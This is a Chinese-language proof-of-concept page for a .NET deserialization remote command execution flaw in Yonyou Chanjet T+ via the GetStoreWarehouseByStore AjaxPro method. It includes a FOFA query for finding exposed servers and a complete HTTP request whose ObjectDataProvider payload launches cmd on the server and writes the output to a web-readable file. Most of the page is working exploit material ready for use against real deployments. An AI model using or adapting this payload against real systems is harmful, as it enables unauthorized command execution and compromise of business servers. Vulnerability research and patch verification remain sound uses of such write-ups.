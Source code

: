 # 用友 畅捷通T+ GetStoreWarehouseByStore 远程命令执行漏洞

# 用友 畅捷通T+ GetStoreWarehouseByStore 远程命令执行漏洞

## 漏洞描述

用友 畅捷通T+ GetStoreWarehouseByStore 存在 .net反序列化漏洞，导致远程命令执行，控制服务器

## 漏洞影响

用友 畅捷通T+

## 网络测绘

```
app="畅捷通-TPlus"
```

## 漏洞复现

登录页面

![image-20230704111641427](/images/image-20230704111641427.png)

验证POC

```
POST /tplus/ajaxpro/Ufida.T.CodeBehind._PriorityLevel,App_Code.ashx?method=GetStoreWarehouseByStore HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/34.0.1847.137 Safari/4E423F
Connection: close
Content-Length: 668
X-Ajaxpro-Method: GetStoreWarehouseByStore
Accept-Encoding: gzip

{
  "storeID":{
    "__type":"System.Windows.Data.ObjectDataProvider, PresentationFramework, Version=4.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35",
    "MethodName":"Start",
    "ObjectInstance":{
      "__type":"System.Diagnostics.Process, System, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089",
      "StartInfo":{
        "__type":"System.Diagnostics.ProcessStartInfo, System, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089",
        "FileName":"cmd",
        "Arguments":"/c whoami > C:/Progra~2/Chanjet/TPlusStd/WebSite/2RUsL6jgx9sGX4GItQBcVfxarBM.txt"
      }
    }
  }
}
```

![image-20230704111653392](/images/image-20230704111653392.png)

```
/tplus/xxx.txt
```

![image-20230704111706616](/images/image-20230704111706616.png)

